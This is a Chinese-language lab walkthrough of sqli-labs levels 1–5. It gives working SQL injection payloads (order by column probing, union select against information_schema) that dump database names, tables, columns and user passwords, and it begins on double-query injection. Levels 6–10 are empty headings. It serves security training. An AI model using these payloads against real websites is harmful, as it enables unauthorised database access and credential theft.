# sqli_labs1-20

学习sql注入前可以去[菜鸟教程](https://www.runoob.com/sql/sql-tutorial.html)看看语法

使用phpstudy，请务必将sql的版本调到5.5以上，因为这样你的数据库内才会有information_schema数据库，方便进行实验测试。

 另外-- （--空格）在SQL内表示注释，但在URL中，如果在最后加上-- ，浏览器在发送请求的时候会把URL末尾的空格舍去，所以我们用--+代替-- ，原因是+在URL被URL编码后会变成空格。

## less-1

根据提示，可以知道只是个单引号注入的题目



```sql
1 ?id=1 正常回显
2 ?id=1'显示错误
```






接下来就是常规的联合注入

使用order by 来测试表的列数

```sql
?id=1'order by 3--+
?id=1'order by 4--+
```


发现输入4显示错误，说明是三列

接下来使用联合查询



```sql
?id=-1' union select 1,2,3--+
1,2,3 只是为了保证union前后两个语句的列数相同，
id=-1 则是为了使前一个查询无返回结果从而返回第二个 select 的查询结果,只需要将数字替换为相应的想要查询的信息即可.比如：
?id =1 union select 1,database(),user()--+
下面使用MySQL自带的一个表information_schema，依次爆库名，爆表名，爆列名，爆数据了
```


**爆库**

```sql
?id=-1'union select 1,database(),3--+
```




**爆表名**

```sql
?id=-1' union select 1,group_concat(table_name) ,3 from information_schema.tables where table_schema=database()--+
```




**爆列名**

```sql
?id=-1' union select 1,group_concat(column_name) ,3 from information_schema.columns where table_name='users'--+
```




**爆数据**

```sql
?id=-1' union select 1,group_concat(id,username,password) ,3 from users--+
```




## less-2

根据提示，是整形注入

```sql
用order by测试，发现有3列
?id=1 order by 4--+会报错
```




**接下来就是使用union联合查询**

```sql
?id=-1 union select 1,2,3--+
```




接下来又是熟悉的爆库爆表爆列爆数据了

**爆库**

```sql
?id=-1 union select 1,database(),3--+
```



得到表security


**爆表**

```sql
?id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+
```




**爆列**

```sql
?id=-1 union select 1,group_concat(column_name) ,3 from information_schema.columns where table_name='users'--+
```




**爆数据**

```sql
?id=-1 union select 1,group_concat(id,username,password) ,3 from users--+
?id=-1 union select 1,username,password from users where id=3--+
```






## less-3

根据提示

输入

```sql
?id=1'
```



根据报错，发现是单引号加括号形成的查询语句，

尝试构造

```sql
?id=1')--+
```



正常回显

接着就是和less-1一样的步骤


**爆库**

```sql
?id=-1')union select 1,database(),3--+
```



可以得到数据库名字security


**爆表**

```sql
?id=-1')union select 1,group_concat(table_name) ,3 from information_schema.tables where table_schema=security--+
```




**爆列**

```sql
?id=-1') union select 1,group_concat(column_name) ,3 from information_schema.columns where table_name='users'--+
```




**爆数据**

```sql
?id=-1') union select 1,group_concat(id,username,password) ,3 from users--+
```



或者 查询数据

```sql
?id=-1') union select 1,username,password from users where id=3--+
```




## less-4

根据提示，知道这是双引号注入

```sql
?id=1'没错误
?id=1"错误
发现是双引号加括号形成的查询语句
?id=1")--+正确回显
```



接下来又是常规操作

**爆库**

```sql
?id=-1")union select 1,database(),3--+
```



可以得到数据库名字security


**爆表**

```sql
?id=-1") union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+
```




**爆列**

```sql
?id=-1") union select 1,group_concat(column_name) ,3 from information_schema.columns where table_name='users'--+
```




**爆数据**

```sql
?id=-1") union select 1,group_concat(id,username,password) ,3 from users--+
```



或者 查询数据

```sql
?id=-1") union select 1,username,password from users where id=3--+

or

?id=3")--+
```




## less-5

```sql
?id=1正常
?id=1'错误
?id=1'--+正常但是注入不出库名
```

根据提示可知该使用双查询注入

**子查询**

在说双查询之前，先介绍一下子查询。

查询：任何SQL语句都是查询。但此术语一般指SELECT语句。
SQL还允许创建子查询（subquery），即嵌套在其他查询中的查询。

举个简单的例子，Select concat((select database()));
执行的时候，先从子查询进行。因此执行select database()这个语句就会把当前的数据库的名称查出来，然后把结果传入到concat函数。这个函数是用来连接的。比如数据库名字叫’a’和’b’，那么concat(‘a’,’b’)后，结果就是ab了。

j简单来说，双查询注入其实就是一个select语句中再嵌套一个select语句，嵌套的这个语句称作子查询，例如：

```sql
select concat((select database()))
```




后续注入，需要先了解count()、rand()、floor()、concat()这三个函数的功能以及group by语句的用法。

```sql
rand()函数 //返回0~1间的小数。
```
```sql
floor()函数 //向下取整。向上取整：ceiling()
```
```sql
count()函数 //汇总函数：返回匹配指定条件的行数
```
```sql
group by子句 //根据一个或多个列对结果集进行分组
```


## less-6

## less-7

## less-8

## less-9

## less-10

